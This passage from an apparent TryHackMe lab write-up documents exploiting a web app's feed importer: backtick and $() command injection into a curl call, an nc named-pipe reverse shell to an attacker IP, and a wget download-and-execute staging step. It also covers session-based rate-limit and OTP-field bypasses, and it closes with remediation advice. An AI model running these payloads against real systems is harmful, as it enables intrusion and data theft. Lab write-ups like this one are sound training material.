
*Figure 18 — Submitting a `file://` URI directly is rejected as an "Invalid URL".*


*Figure 19 — A `file://localhost/...` variant is rejected with `"Only http/https allowed"`, confirming an explicit scheme allow-list on the input.*


---

### 11. Diagnostic Pivot — Command-Injection Discovery via Verbose Error Output

**Category:** Vulnerability Re-Classification (SSRF → OS Command Injection)


**Backtick command substitution — succeeded:**

```text
http://example.com`cat /var/www/user.txt`
```
```text
curl: (6) Could not resolve host: example.com[REDACTED]
```


*Figure 24 — Backtick command substitution (`` `cat /var/www/user.txt` ``) executes successfully: the shell runs `cat /var/www/user.txt` first, substitutes its output directly into the URL string passed to curl, and the file contents are visible appended to the (failed) hostname resolution error.*


---

### 13. Post-Exploitation — Staged Reverse Shell via Command Injection

**Category:** Post-Exploitation — Interactive Shell Access

*(Optional deeper exploitation beyond the room's two required questions, performed for further practice.)*

A reverse-shell one-liner was generated for the target's shell environment:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 4444 >/tmp/f
```


*Figure 27 — Standard `mkfifo`/named-pipe reverse shell one-liner (nc) generated for the target's `sh` environment.*

A first direct attempt — injecting the full one-liner inline inside the URL field — connected briefly but died immediately, most likely due to shell-special characters (`&`, `|`, `>`) being mangled by the URL/form encoding path between the browser, the server's input handling, and the final shell invocation:

```bash
nc -lvnp 4444
# connect to [...] from (UNKNOWN) [10.49.137.246] 59770
# (connection drops immediately — no stable shell)
```


*Figure 28 — First reverse shell attempt: the target connects back but the session closes instantly, consistent with special characters being corrupted in transit.*

**Fix — stage the payload as a file and execute it in two separate steps**, avoiding special characters in the injected command entirely:

**Step 1 — write the payload locally and serve it over HTTP:**

```bash
cat shell.sh
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 4444 >/tmp/f

python3 -m http.server 8000
```


*Figure 29 — Local `shell.sh` file containing the reverse-shell one-liner, to be fetched by the target rather than injected inline.*

**Step 2 — download the payload onto the target via command injection:**

```text
http://$(wget http://<attacker_ip>:8000/shell.sh)
```


*Figure 30 — Command-substitution injection triggers the target to `wget` the staged `shell.sh` payload from the attacker's Python HTTP server.*

```text
10.48.145.168 - - [14/Oct/2026 ...] "GET /shell.sh HTTP/1.1" 200 -
```


*Figure 31 — Attacker-side Python HTTP server log confirming the target successfully fetched `shell.sh`.*

**Step 3 — execute the staged payload in a separate injection:**

```text
http://$(sh shell.sh)
```


*Figure 32 — A second, separate command-injection request executes the already-staged `shell.sh` file with `sh`, avoiding the special characters that broke the earlier inline attempt.*

**Result — stable interactive reverse shell:**

```text
$ whoami
www-data
$ cat /var/www/user.txt
[REDACTED]
$ ls -la
... api_login.php, config.php, dashboard.php, import_feed_api.php,
    login.php, login.php.bak, otp.php, verify_otp.php, upload_profile.php ...
```


*Figure 33 — Stable reverse shell established as `www-data`, confirming the flag value and revealing the full application source tree (`config.php`, `import_feed_api.php`, etc.) for further review.*

---

## Other Details

### Troubleshooting Notes

- **JSON vs. multipart mismatch:** initial SQL-injection attempts sent as raw JSON bodies via Burp Repeater were silently ignored, because the login form actually submits `multipart/form-data` via `FormData`/`fetch`. Always confirm the real request format with `view-source` or an intercepted capture before crafting payloads from scratch.
- **Session-scoped rate limiting:** the `"Too many login attempts."` lockout was tied to the `PHPSESSID` cookie rather than the source IP or account. Simply removing the `Cookie` header before each Repeater send forced a fresh, unlocked session every time.
- **`.bak` files are not uniformly present:** `login.php.bak` was genuinely served with real source code, but `verify_otp.php.bak` and `otp.php.bak` both returned the application's generic fallback homepage rather than 404s — a reminder to verify actual file content (not just a 200 status) before concluding a backup file exists.
- **Scheme/IP filters vs. root cause:** the Import Feed feature's `file://` block and private-IP block were real, functioning input filters — but they were masking a much more serious underlying flaw (direct shell invocation of `curl`). A naive private-IP string filter was defeated trivially using a decimal-encoded IP representation, and the resulting *verbose shell error output* was the actual tell that pointed toward command injection rather than classic SSRF.
- **Payload-specific injection failures:** `; cat /var/www/user.txt` failed while `` `cat /var/www/user.txt` `` and `; curl --version` both succeeded — not every shell metacharacter behaves identically depending on how arguments are parsed downstream (e.g., curl attempting to treat trailing tokens as a second URL/hostname). When one injection operator fails, try several (`;`, `` ` ` ``, `$()`, `|`, `&&`) before concluding the point isn't exploitable.
- **Reverse shells and special characters:** an inline one-liner reverse shell containing `&`, `|`, and `>` connected but died instantly when injected directly into a web form field, most likely due to encoding/mangling in transit. Staging the payload as a file (served via a local HTTP server, fetched with `wget`, then executed in a second, separate injection) avoided the problem entirely and produced a stable shell.

### Attack Chain Overview

1. Reconnaissance (`nmap`) confirms Apache/PHP backend and SSH.
2. Browser DevTools and `view-source` reveal the login flow sends `multipart/form-data` to `api_login.php`.
3. Burp Suite interception set up; classic SQL injection attempted but blocked by a session-scoped rate limiter.
4. Rate limiter bypassed by dropping the `Cookie` header before each attempt, forcing a fresh session.
5. SQL injection ultimately unsuccessful (parameterised queries) — pivot to information disclosure.
6. `login.php.bak` backup file discloses the admin email and password composition policy.
7. Small, targeted brute force derives the full admin password from the disclosed policy.
8. Login succeeds but routes to a server-side-enforced Two-Factor (OTP) verification step.
9. `verify_otp.php` request tampered with an extra, non-form `is_verified=true` field — mass assignment bypass grants verified admin session.
10. Admin dashboard reached; first flag obtained.
11. "Import Feed" feature identified as a server-side URL fetcher (SSRF-shaped surface).
12. `file://` and private-IP filters bypassed/probed; verbose `curl` CLI error output leaks through, revealing the backend shells out directly to `curl`.
13. Shell metacharacter injection (backticks) achieves OS command injection; `/var/www/user.txt` read directly — second flag obtained.
14. (Optional) Reverse shell staged via `wget` + two-stage command injection, yielding stable interactive access as `www-data` for further post-exploitation review.

### Remediation Recommendations

- **Remove backup and temporary files** (`.bak`, `.old`, `.swp`, `.orig`) from all web-accessible directories as part of the deployment pipeline; configure Apache/Nginx to explicitly deny access to such extensions as defence in depth.
- **Never store credentials, password policies, or test-account details in source comments.** Secrets and account provisioning details belong in a secrets manager or environment configuration outside the web root, never in versioned or deployed application code.
- **Enforce rate limiting per account and per source IP, not solely per session.** A session-scoped counter is trivially bypassed by discarding the cookie and requesting a new one.
- **Validate 2FA/OTP state entirely server-side**, keyed to the session, with no client-supplied field (`is_verified`, `otp_status`, etc.) ever trusted or even accepted in the request body. The server should generate, store, and check the OTP itself, and ignore any extraneous fields in the POST body (reject unknown fields outright, or use strict schema validation).
- **Never invoke external processes with shell interpolation of user input.** If an "Import Feed"-style URL fetcher is required, use a dedicated HTTP client library (e.g. PHP's `cURL` extension functions, not `shell_exec`/`exec`/`system` wrapping the `curl` binary), with strict allow-listing of schemes (`http`/`https` only) and destination validation performed via DNS-resolved IP checks (not string pattern matching, which is bypassable via alternate IP encodings), repeated at the time of the actual outbound connection to prevent DNS-rebinding and redirect-based bypasses.
- **Apply the principle of least privilege to the web server process.** The compromised process (`www-data`) should run in a sandboxed/constrained environment (containerisation, AppArmor/SELinux, minimal filesystem permissions) so that even a full command-injection compromise has limited blast radius.
- **Monitor and alert on anomalous outbound requests and process spawning from the web server**, which would have surfaced the `curl`/`wget`/reverse-shell activity in this engagement in real time.

---

## References

- TryHackMe Room — Interceptor: <https://tryhackme.com/room/interceptor>
- Video Walkthrough: <https://www.youtube.com/watch?v=nWBurA1Tuqw>
